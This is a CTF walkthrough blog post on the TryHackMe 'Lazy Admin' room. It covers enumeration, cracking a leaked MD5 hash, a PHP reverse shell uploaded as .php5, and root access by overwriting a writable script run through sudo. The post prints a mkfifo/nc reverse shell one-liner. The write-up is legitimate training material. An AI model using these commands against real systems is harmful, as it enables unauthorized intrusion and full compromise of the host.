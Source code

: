 ```yaml
---
layout: post
current: post
cover: 'assets/images/lazyadmin/cover.png'
navigation: True
title: "Lazy Admin Write Up"
date: 2021-05-05 00:00:00
tags: [tryhackme, ctf, easy]
class: post-template
subclass: 'post'
author: darryn
---
```

![cover](/assets/images/lazyadmin/cover.png)

### Overview

[lazyadmin](https://tryhackme.com/room/lazyadmin) is a fun easy rated CTF room on [TryHackMe](https://tryhackme.com). 

### Nmap

I deployed the machine and was given the target IP 10.10.86.223. I started a NMAP scan to check the available ports. 

```highlight
└──╼ $sudo nmap -sC -sV -oA nmap/initial 10.10.86.223
Starting Nmap 7.80 ( https://nmap.org ) at 2021-05-05 16:22 BST
Nmap scan report for 10.10.86.223
Host is up (0.028s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 49:7c:f7:41:10:43:73:da:2c:e6:38:95:86:f8:e0:f0 (RSA)
|   256 2f:d7:c4:4c:e8:1b:5a:90:44:df:c0:63:8c:72:ae:55 (ECDSA)
|_  256 61:84:62:27:c6:c3:29:17:dd:27:45:9e:29:cb:90:5e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.99 seconds
```

2 Ports open:

- 22 - SSH - OpenSSH 7.2p2 Ubuntu
- 80 - HTTP - Apache web server version 2.4.18

I also ran a full port scan but no additional ports were found.

### Enumeration

Opening the webpage just provides a default apache page, I checked the source code and tried robots.txt but didn't find anything so ran a gobuster. Straight away I got a hit for '/content'.

```highlight
└──╼ $gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.86.223 -t 75 -o gobuster.log
===============================================================                                                                
Gobuster v3.0.1                                                                                                                
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)                                                                
===============================================================
[+] Url:            http://10.10.86.223
[+] Threads:        75
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2021/05/05 16:26:03 Starting gobuster
===============================================================
/content (Status: 301)
[SNIP]
```

Navigating to 'http://10.10.86.223/content' appears to be another default page but this time revealing the server is running SweetRice CMS. 

![webpage](/assets/images/lazyadmin/webpage.png)

I ran a gobuster in the background while clicking around. I didnt find anything of interest, however gobuster found a few directories to review.

```highlight
└──╼ $gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.86.223/content/ -t 75 -o gobuster-sweetrice.log
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.86.223/content/
[+] Threads:        75
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2021/05/05 16:33:33 Starting gobuster
===============================================================
/images (Status: 301)
/js (Status: 301)
/inc (Status: 301)
/as (Status: 301)
/_themes (Status: 301)
/attachment (Status: 301)
===============================================================
2021/05/05 16:35:02 Finished
===============================================================
```

'http://10.10.86.223/content/as' took me to a login page, I tried some default credentials but couldnt log in. Looking around the folders '/inc/mysql_backup/' looks interesting and in the folder is a single backup file.

![mysql](/assets/images/lazyadmin/mysql.png)

The file is readable with cat, looking through I found a user account and password hash. Using the tool 'hash-identifier' the hash is md5. Because its md5 I used [crackstation](https://crackstation.net) rather than hashcat and got a hit.

Using the credentials from the mysql backup file and the cracked password I was able to login to 'http://10.10.86.223/content/as'

![sweetrice](/assets/images/lazyadmin/sweetrice.png)

### Initial Access

Once logged in, I could clearly see the SweetRice version of 1.5.1, googling 'sweetrice 1.5.1 exploit' I found an [exploit](https://www.exploit-db.com/exploits/40716) using the upload feature. The exploit is just a simple python script doing a POST call to '/as/?type=media_center&mode=upload'.

Rather than use the exploit code I navigated to the 'Media Center' part of the website so I could upload a file.

I copied a php reverse shell from /usr/share/webshells/php from my ParrotOS and renamed to shell.php and updated the IP and port details.

![upload](/assets/images/lazyadmin/upload.png)

However, shell.php didn't work, I didn't get an error it just didn't upload, I renamed to shell.php5 and tried to upload again and it worked. I clicked the uploaded file and got a shell.


```highlight
└──╼ $nc -nvlp 4444
listening on [any] 4444 ...
connect to [SNIP] from (UNKNOWN) [10.10.86.223] 38212
Linux THM-Chal 4.15.0-70-generic #79~16.04.1-Ubuntu SMP Tue Nov 12 11:54:29 UTC 2019 i686 i686 i686 GNU/Linux
 18:52:05 up 33 min,  0 users,  load average: 0.00, 0.00, 0.06
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```

### Priv Esc

The first thing I checked was sudo -l and found the www-data was able to run a perl script as sudo with no password. 

```highlight
$ sudo -l
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
$ 
```

I checked the script permissions and I was not able to edit the script however I could read it.

```highlight
$ ls -lah /home/itguy/backup.pl
-rw-r--r-x 1 root root 47 Nov 29  2019 /home/itguy/backup.pl
```

I stabilised my shell using python and started reviewing the script. It looks like the script calls another script so I again checked the permissions and I can edit this file.

```highlight
www-data@THM-Chal:/home/itguy$ cat /home/itguy/backup.pl
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
www-data@THM-Chal:/home/itguy$
www-data@THM-Chal:/home/itguy$ ls -lah /etc/copy.sh
-rw-r--rwx 1 root root 81 Nov 29  2019 /etc/copy.sh
www-data@THM-Chal:/home/itguy$
www-data@THM-Chal:/home/itguy$ cat /etc/copy.sh 
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f
```

The /etc/copy.sh script has a nc reverse shell payload, I replaced the command with my own IP and port details  and ran the perl script as sudo.

```highlight
www-data@THM-Chal:/home/itguy$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc IP 5555 >/tmp/f" > /etc/copy.sh
www-data@THM-Chal:/home/itguy$
www-data@THM-Chal:/home/itguy$ sudo /usr/bin/perl /home/itguy/backup.pl
```

Root shell!

```highlight
└──╼ $nc -nvlp 5555
listening on [any] 5555 ...
connect to [SNIP] from (UNKNOWN) [10.10.86.223] 49536
# id
uid=0(root) gid=0(root) groups=0(root)
```

Thanks for reading!

============================================================

Any comments or feedback welcome! You can find me on [twitter](https://twitter.com/dazbrownfield).

<a href="https://www.buymeacoffee.com/dazbrownfield" target="_blank"><img src="https://cdn.buymeacoffee.com/buttons/v2/default-blue.png" alt="Buy Me A Coffee" style="height: 60px !important;width: 217px !important;" ></a>



